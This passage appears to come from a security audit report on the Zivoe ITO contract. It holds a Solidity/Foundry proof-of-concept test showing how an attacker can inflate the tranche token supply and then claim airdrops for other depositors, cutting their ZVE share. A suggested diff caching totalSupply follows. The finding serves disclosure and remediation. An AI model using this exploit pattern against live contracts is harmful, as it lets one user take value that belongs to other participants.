 ```solidity
        ITO.migrateDeposits();

        //  A blackhat notices this vulneraility
        // 1.) blackhat calls claimAirdrop for himself.
        vm.startPrank(address(bob));
        (,,uint256 ZVEVested_bob_blackHAt)=ITO.claimAirdrop(address(bob));
        console.log("ZVEVested_bob by blackHAt",ZVEVested_bob_blackHAt);

        // 2.) blackhat inflates the totalsupply zSTT and zJTT by calling depositSenior() from ZivoeTranches.sol .
        mint("USDC", address(bob), 1000000e6);
        assert(bob.try_approveToken(asset, address(ZVT), 1000000e6));
        // mints zSTT by calling depositSenior of ZiveoTranches.sol and increases the supply.
        assert(bob.try_depositSenior(address(ZVT), 1000000e6, asset));

        // 3.) now blackhat  calls claimAirdrop on behalf of all the user that has particapted in the ITO.
        (,,uint256 ZVEVested_sam)=ITO.claimAirdrop(address(sam));
        console.log("ZVEVested by sam",ZVEVested_sam);
        (,,uint256 ZVEVested_sue)=ITO.claimAirdrop(address(sue));
        console.log("ZVEVested by sue",ZVEVested_sue);
        (,,uint256 ZVEVested_jim)=ITO.claimAirdrop(address(jim));
        console.log("ZVEVested by jim",ZVEVested_jim);
        vm.stopPrank();
        // 4.) This results in other ITO participants to receive far less ZVE than they should have received.
        // bob,jim, sam and sue deposited the same amount in ZivoeITO and owned same amount of pZVE but  bob received more amount than others .
        // sue and others  should also have received same amount as bob .
        assertGt(ZVEVested_bob_blackHAt,ZVEVested_sam);
        assertGt(ZVEVested_bob_blackHAt,ZVEVested_sue);
        assertGt(ZVEVested_bob_blackHAt,ZVEVested_jim);
    }
```

## Tool used

Manual Review

## Recommendation
Instead of using totalSupply directly in claimAirdrop , cache the value of totalSupply in depositJunior and depositSenior and use that cached value to calculate the `lower` parameter value.
```diff
contract ZivoeITO is Context {

    using SafeERC20 for IERC20;
    
    // ---------------------
    //    State Variables
    // ---------------------
//...//

+ uint256 public totalSupplyzSTT;
+ uint256 public totalSupplyzJTT;

    uint256 private constant BIPS = 10000;

    function claimAirdrop(address depositor) external returns (
        uint256 zSTTClaimed, uint256 zJTTClaimed, uint256 ZVEVested
    ) {
//...//
        // Calculate proportion of $ZVE awarded based on $pZVE credits.
```
